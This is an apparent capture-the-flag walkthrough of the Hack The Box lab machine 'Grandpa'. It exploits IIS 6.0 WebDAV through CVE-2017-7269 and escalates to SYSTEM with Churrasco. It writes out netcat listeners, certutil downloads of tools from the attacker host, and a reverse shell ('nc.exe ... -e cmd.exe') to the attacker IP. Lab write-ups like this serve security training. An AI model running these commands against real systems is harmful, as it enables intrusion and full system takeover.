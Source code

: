 
# 🧓 HTB: Grandpa Walkthrough

**Machine Info:**
- **IP**: `10.10.10.14`
- **OS**: [Windows Server 2003 R2 SP2 (IIS 6.0)](Windows)
- **Difficulty**: [Easy](Easy)
- **Exploits Used**:
  - [HTTP](HTTP) – WebDAV Support
  - **CVE-2017-7269** – [HTTP](HTTP) PROPFIND Buffer Overflow (RCE)
  - **CVE-2009-0078** – Local PrivEsc with `Churrasco.exe`

---

## 🧭 Recon

### 🔍 Nmap Scan
```bash
nmap -sV -sC -oA scan/result 10.10.10.14
```

**Result:**
```
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD COPY MOVE PROPFIND SEARCH LOCK UNLOCK
|_  Potentially risky methods: TRACE COPY MOVE PROPFIND SEARCH LOCK UNLOCK
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
```

IIS 6.0 with [HTTP](HTTP) **WebDAV** extensions is exposed — great target for known RCEs.

---

## 🔎 WebDAV Test – [HTTP](HTTP)

### 🌐 Test with `davtest`
```bash
davtest -url http://10.10.10.14
```

**Result:**  
No upload capability, but [HTTP](HTTP) verbs like `PROPFIND`, `SEARCH`, and `LOCK` are enabled.

---

## 🧨 Initial Foothold – CVE-2017-7269 (PROPFIND RCE)

### 🛠️ Clone Exploit
```bash
git clone https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269.git
cd iis6-exploit-2017-CVE-2017-7269
```

### ✏️ Rename if needed
```bash
mv iis6 reverse.py
```

### 📡 Set Up Listener
```bash
rlwrap nc -lnvp 4444
```

### 🚀 Launch Exploit (Over [HTTP](HTTP))
```bash
python2 reverse.py 10.10.10.14 80 10.10.14.10 4444
```

### 💥 Shell Received
```cmd
whoami
nt authority\network service
```

### 🧾 Grab User Flag
```cmd
type "C:\Documents and Settings\NetworkService\Desktop\user.txt"
```

---

## 🧱 Privilege Escalation – SYSTEM

### 📄 System Info
```cmd
systeminfo > info.txt
```

### 🔍 Find Privesc with `wes.py`
```bash
./wes.py info.txt
```

### 🎯 Vulnerability Found: **CVE-2009-0078**
- Exploits `SeImpersonatePrivilege`
- Works perfectly on this unpatched 2003 box

---

## 🚒 SYSTEM Shell via Churrasco

### 🧷 Download Churrasco
```bash
wget https://github.com/Re4son/Churrasco/raw/master/churrasco.exe
```

### 📦 Transfer Payload & Listener
```bash
# On Attacker
updog -p 80

# On Victim
certutil -urlcache -split -f http://10.10.14.10/churrasco.exe churrasco.exe
certutil -urlcache -split -f http://10.10.14.10/nc.exe nc.exe
```

### 🛰️ Setup Second Listener
```bash
rlwrap nc -lnvp 5555
```

### 🚀 Execute SYSTEM Shell via Churrasco
```cmd
churrasco.exe -d "nc.exe 10.10.14.10 5555 -e cmd.exe"
```

### ✅ SYSTEM Confirmed
```cmd
whoami
nt authority\system
```

---

## 🏁 Grab Root Flag
```cmd
type "C:\Documents and Settings\Administrator\Desktop\root.txt"
```

---

## ✅ Summary

| Phase | Details |
|-------|---------|
| **Recon** | Found IIS 6.0 [HTTP](HTTP) server with WebDAV support |
| **Initial Access** | CVE-2017-7269 – Exploited PROPFIND via [HTTP](HTTP) for RCE |
| **Privesc** | CVE-2009-0078 – Used Churrasco to escalate to SYSTEM |
| **Flags** | Retrieved `user.txt` and `root.txt` |

---

Let me know if you'd like a `.md` version or one formatted for a report 📄✨